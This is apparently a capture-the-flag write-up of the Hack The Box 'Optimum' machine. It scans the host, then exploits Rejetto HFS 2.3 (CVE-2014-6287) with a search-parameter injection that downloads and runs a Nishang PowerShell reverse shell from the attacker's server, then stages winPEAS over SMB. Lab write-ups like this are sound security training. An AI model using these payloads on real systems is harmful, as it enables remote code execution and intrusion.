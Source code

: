# Hack The Box - Optimum

```CSS
Machine IP: 10.10.10.8

Vulnerabilities:
  - Rejetto HTTP File Server 2.3: CVE-2014-6287 (w/o MetaSploit)
```

## NMAP
```CSS
▶ nmap -Pn -sS -p- 10.10.10.8 -T4 --min-rate 1000 -oN surface.nmap

Nmap scan report for 10.10.10.8
Host is up (0.18s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE
80/tcp open  http
```

```CSS
▶ nmap -sC -sV -p 80 10.10.10.8 -oN deep.nmap

Nmap scan report for 10.10.10.8
Host is up (0.18s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## HTTP #80
![image](https://user-images.githubusercontent.com/83878909/235110690-0249d8ca-39e8-42c0-b237-2aab3e219a96.png)

### HTTP File Server 2.3
  - CVE-2014-6287 : The findMacroMarker function in parserLib.pas in Rejetto HTTP File Server (aka HFS or HTTP Fileserver) 2.3x before 2.3c allows remote attackers to execute arbitrary programs via a %00 sequence in a search action.

### Exploit
![image](https://user-images.githubusercontent.com/83878909/236133911-37a8b4c2-129c-4215-81f0-4b67efba6033.png)

#### Command Execution

```CSS
▶ tcpdump -i tun0
```
```CSS
%00{.exec|ping 10.10.14.21.}
```
![image](https://user-images.githubusercontent.com/83878909/236135355-c044f521-5cea-4d4c-abb3-95aafa954d6c.png)
![image](https://user-images.githubusercontent.com/83878909/236134669-802324a7-fbd7-4cf3-9cd8-6bc4c8336c04.png)

#### Reverse Shell (Nishang)

- `Invoke-PowerShellTcp.ps1`
![image](https://user-images.githubusercontent.com/83878909/236135960-4b5a97fd-8c54-4847-ac0e-f6e6c1dbed23.png)

  - Copy and Paste the line of code to the bottom of the sciript.
  - Edit the code.
![image](https://user-images.githubusercontent.com/83878909/236136805-0bc1601e-7bad-4b11-bad7-3206cf2f3dcd.png)
![image](https://user-images.githubusercontent.com/83878909/236137400-fad06366-6e40-4a1f-b0de-1f1d8831b9ff.png)

  - Upload the `Nishang` script.
  - Start a reverse `Netcat` listener.

```CSS
%00{.exec|c:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX(New-Object Net.WebClient).downloadstring('http://10.10.14.21:8000/Invoke-PowerShellTcp.ps1').}
```
![image](https://user-images.githubusercontent.com/83878909/236139893-93d6cafd-91f1-4da8-94cc-4c2a5ca6079b.png)
![image](https://user-images.githubusercontent.com/83878909/236139759-484a70c3-ca74-4e01-9096-50befb2d0dc6.png)

  - Target system information.
```CSS
PS C:\Users\kostas\Desktop>systeminfo                                                
```
![image](https://user-images.githubusercontent.com/83878909/236140832-cb67ae27-8fb1-42cf-8dcc-b03aca12c96c.png)

  - Start SMB server.
```CSS
▶ sudo impacket-smbserver share . -smb2support
```
  - Copy `winPEASx64.exe` to optimum.
```CSS
▶ copy \\10.10.14.21\share\winPEASx64.exe .
```
![image](https://user-images.githubusercontent.com/83878909/236153111-422fdf8f-75cd-46dd-83f1-ab8a88d517ad.png)
